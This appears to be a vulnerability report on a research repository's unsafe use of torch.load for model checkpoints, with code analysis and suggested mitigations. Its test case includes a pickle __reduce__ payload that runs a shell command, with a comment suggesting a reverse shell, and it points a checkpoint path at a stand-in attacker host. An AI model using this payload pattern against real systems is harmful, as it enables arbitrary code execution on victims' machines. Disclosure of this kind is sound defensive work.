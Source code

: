 ### Vulnerability List

- **Vulnerability Name:** Pickle Deserialization leading to Remote Code Execution
- **Description:**
    1. The `load` functions in `detection/model.py` and `classification/model.py` use `torch.load` to load model checkpoints from user-specified paths (`load_ckpt_paths`, `visual_encoder_ckpt_path`, `pretrained_ckpt_name`).
    2. `torch.load` in PyTorch is vulnerable to pickle deserialization attacks when loading untrusted data. If a malicious actor crafts a pickled file containing malicious code and makes it available at a URL or a path that a researcher might use, they can achieve arbitrary code execution.
    3. The `scripts/download_models.sh` script downloads pretrained models from Google Cloud Storage (`https://storage.googleapis.com/graph_distillation/ckpt/`). While currently hosted on a legitimate Google Cloud Storage bucket, this script encourages users to download and use pretrained models.
    4. If an attacker can compromise the Google Cloud Storage bucket (or a mirror/copy of the models), or trick a user into downloading a malicious model from a different location (e.g., through a man-in-the-middle attack or social engineering), the researcher will unknowingly execute the malicious code when loading the model using the provided scripts or by manually specifying the path to the malicious model.
    5. The training and testing scripts (`scripts/train_*.sh`, `scripts/test_*.sh`) utilize command-line arguments like `--load_ckpt_path` and `--visual_encoder_ckpt_path`, which can be pointed to a malicious checkpoint file.
- **Impact:** Arbitrary code execution on the researcher's machine. This can lead to:
    - Data exfiltration: Sensitive research data, credentials, or personal files could be stolen.
    - System compromise: The attacker could gain full control of the researcher's machine, install backdoors, or use it for further attacks.
    - Research disruption: The researcher's work could be sabotaged, models corrupted, or experiments manipulated.
- **Vulnerability Rank:** Critical
- **Currently Implemented Mitigations:**
    - None. The code directly uses `torch.load` without any input validation or security checks on the checkpoint files.
- **Missing Mitigations:**
    - **Input validation:** Implement checks to ensure that the provided checkpoint paths are within expected directories and potentially verify the integrity of the downloaded files (e.g., using checksums).
    - **Secure model loading:** Explore safer alternatives to `torch.load` for loading models, if available, or implement sandboxing/isolation techniques when loading models from untrusted sources.
    - **User warnings:** Clearly warn users about the risks of downloading and using pretrained models from untrusted sources in the README and documentation. Recommend verifying the source and integrity of downloaded models.
- **Preconditions:**
    1. A researcher downloads and uses the provided code.
    2. The researcher attempts to load a pretrained model, either by using the `download_models.sh` script and then using the training/testing scripts, or by manually providing a checkpoint path.
    3. A malicious actor has successfully placed a maliciously crafted PyTorch checkpoint file at a location accessible to the researcher, either by compromising the original download source or by tricking the researcher into using a different, malicious source.
- **Source Code Analysis:**
    - **`detection/model.py` and `classification/model.py` - Model Loading Functions:**
        - Both `BaseModel` classes in `detection/model.py` and `classification/model.py` have a `load` method.
        - These `load` methods use `torch.load(path)` to load the state dictionaries of the models.
        - `detection/model.py` `load` function:
          ```python
          def load(self, load_ckpt_paths, options, epoch=200):
              """Load checkpoints.
              """
              assert len(load_ckpt_paths) == len(self.embeds)
              for i in range(len(self.embeds)):
                  ckpt_path = load_ckpt_paths[i]
                  load_opt = options[i]
                  if len(ckpt_path) == 0:
                      utils.info('{}: training from scratch'.format(self.modalities[i]))
                      continue

                  if load_opt == 0:  # load teacher model (visual + sequence)
                      path = os.path.join(ckpt_path, 'embed_{}.pth'.format(epoch))
                      ckpt = torch.load(path) # Vulnerable line
                      try:
                          self.embeds[i].load_state_dict(ckpt)
                      except:
                          utils.warn('Check that the "modalities" argument is correct.')
                          exit(0)
                      utils.info('{}: ckpt {} loaded'.format(self.modalities[i], path))
                  elif load_opt == 1:  # load pretrained visual encoder
                      ckpt = torch.load(ckpt_path) # Vulnerable line
                      # ... (rest of the code)
          ```
        - `classification/model.py` `load` function:
          ```python
          def load(self, load_ckpt_paths, epoch=200):
              """Load trained models."""
              assert len(load_ckpt_paths) == len(self.embeds)
              for i, ckpt_path in enumerate(load_ckpt_paths):
                  if len(ckpt_path) > 0:
                      path = os.path.join(ckpt_path, 'embed_{}.pth'.format(epoch))
                      self.embeds[i].load_state_dict(torch.load(path)) # Vulnerable line
                      utils.info('{}: ckpt {} loaded'.format(self.modalities[i], path))
                  else:
                      utils.info('{}: training from scratch'.format(self.modalities[i]))
          ```
        - In both cases, `torch.load(path)` is directly used to load the checkpoint file specified by `path`, which is derived from user-provided paths (`load_ckpt_paths`, `visual_encoder_ckpt_path`).

    - **`scripts/download_models.sh` - Model Download Script:**
        - This script uses `wget` to download zipped checkpoint files from `https://storage.googleapis.com/graph_distillation/ckpt/`.
        - After downloading, these checkpoints are used by the training and testing scripts.
        - While the current source is a Google Cloud Storage bucket, there is no verification of the downloaded files' integrity.
        ```bash
        wget https://storage.googleapis.com/graph_distillation/ckpt/ntu-rgbd/depth.zip
        wget https://storage.googleapis.com/graph_distillation/ckpt/ntu-rgbd/jjd.zip
        # ... (rest of the download commands)
        ```

    - **`detection/run.py` and `classification/run.py` - Training/Testing Scripts:**
        - These scripts use `argparse` to handle command-line arguments, including checkpoint paths:
            - `--ckpt_path`: Base checkpoint path.
            - `--load_ckpt_path`: Checkpoint path to load for testing.
            - `--visual_encoder_ckpt_path`: Classification checkpoint to initialize visual encoder weights.
            - `--pretrained_ckpt_name`: Name of the teacher detection models.
        - These arguments allow users to specify the paths from which models are loaded, making the application vulnerable if a user is tricked into providing a path to a malicious checkpoint.

- **Security Test Case:**
    1. **Setup:**
        - Attacker creates a malicious PyTorch checkpoint file (`malicious_ckpt.pth`) using pickle, embedding code to execute (e.g., reverse shell, or simply writing a file to `/tmp/pwned`).
        ```python
        import torch
        import pickle
        import subprocess

        class Malicious(object):
            def __reduce__(self):
                cmd = ('touch /tmp/pwned') # Or reverse shell command
                return (subprocess.Popen, (cmd,shell=True,))

        torch.save({'state_dict': None, 'malicious_code': Malicious()}, 'malicious_ckpt.pth')
        ```
    2. **Deployment:**
        - Attacker hosts this `malicious_ckpt.pth` file on a publicly accessible web server or cloud storage (e.g., `https://attacker.com/malicious_ckpt.pth`).
    3. **Victim Action:**
        - Researcher downloads the project code and sets up the environment as described in the README.
        - Researcher modifies one of the test scripts (e.g., `scripts/test_ntu_rgbd.sh`) to use the malicious checkpoint by changing the `--load_ckpt_path` argument to point to the attacker's hosted file:
        ```bash
        python -m classification.run \
          --gpus 0 \
          --split test \
          --dset ntu-rgbd \
          --load_ckpt_path https://attacker.com/malicious_ckpt.pth \  # Malicious path
          --modalities rgb
        ```
        - Researcher executes the modified script: `sh scripts/test_ntu_rgbd.sh`.
    4. **Verification:**
        - After running the script, the attacker verifies if the malicious code was executed on the researcher's machine. For example, checks if the file `/tmp/pwned` exists, or if a reverse shell connection was established.

This test case demonstrates how an attacker can leverage the pickle deserialization vulnerability in `torch.load` to achieve arbitrary code execution by providing a malicious checkpoint file through the `--load_ckpt_path` argument.